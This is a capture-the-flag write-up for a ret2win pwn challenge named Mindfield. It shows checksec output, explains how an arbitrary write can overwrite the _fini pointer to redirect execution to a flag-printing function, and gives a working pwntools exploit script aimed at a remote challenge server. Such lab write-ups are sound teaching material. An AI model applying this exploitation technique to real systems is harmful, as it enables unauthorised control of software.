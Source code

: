 ## Mindfield (PWN)

Mindfield was ret2win challenge which pushed me to learn a new approach...

`No PIE` meant the function addresses will stay static and Ghidra showed a function called `_` which printed the flag. We need to somehow redirect execution to that point in the code.

```shell
➜  pwn_mindfield checksec minefield
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

After reading the decompiled code in Ghidra, I realised that the application takes two Int64 values:
* A memory address to change,
* and the value to change it to.

This seemed easy... I could just hijack the global offset table (GOT) for an imported function. When that function gets called, the target code would execute.

But then I realised no imported functions were called after the arbitrary write 🤔. I dug in to learn about Linux application finalisation and found that the address for `_fini` can be overwritten at runtime even though NX is enabled. Setting it to the `_` function address caused the flag to show when the application tried to unwind and exit.

My exploit code:

```python
#!/usr/bin/env python3
from pwn import *

#context.log_level = 'DEBUG'

elf = ELF('./minefield')

#gdb_cmd = ['b *mission', 'c']
#t = gdb.debug(elf.file.name, '\n'.join(gdb_cmd))
t = remote('188.166.156.174', 32680)

t.recvuntil(b'> ')
t.sendline(b'2')

t.recvuntil(b'mine: ')
buff = str(int(0x6010a8)).encode() # _fini address
t.send(buff)

t.recvuntil(b'plant: ')
buff = str(int(elf.symbols['_'])).encode()
t.send(buff)

print(t.recvall())
````

